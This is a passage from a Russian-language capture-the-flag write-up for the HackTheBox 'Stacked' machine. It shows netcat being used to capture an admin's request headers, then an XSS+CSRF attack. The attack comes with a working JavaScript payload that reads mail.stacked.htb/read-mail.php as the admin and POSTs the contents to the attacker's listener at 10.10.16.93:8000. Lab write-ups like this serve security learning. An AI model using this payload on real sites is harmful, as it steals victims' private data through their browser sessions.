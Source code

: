 ![](<../../../../.gitbook/assets/7 (1).png>)

Чтобы увидеть HTTP заголовки реквеста админа, который "пытается" получить index.js можно использовать netcat:

![](<../../../../.gitbook/assets/8 (1).png>)

### Эксплуатируем XSS+CSRF, чтобы прочитать сообщения от имени админа на другом поддомене:

Мы можем добавить поддомен mail.stacked.htb в наш /etc/hosts, но на него мы все равно не сможем попасть, потому что там скорее всего стоит защита и можно попасть на него только с localhost.

Но мы можем посмотреть, что на этом поддомене через XSS. Так как на сайте используется XMLHttpRequest (из HTTP-заголовка), следовательно можно написать свой javascript-файл, который сделает GET-запрос на mail.stacked.htb от лица админа, а затем сделать POST-запрос с GET-ответом на наш хост:

```javascript
var url = "http://mail.stacked.htb/read-mail.php?id=2"

var firstReq = new XMLHttpRequest();
firstReq.open('GET', url, false);
firstReq.send()

var response = firstReq.responseText;

var secondReq = new XMLHttpRequest();
secondReq.open('POST', "http://10.10.16.93:8000/", false);
secondReq.send(response);
```
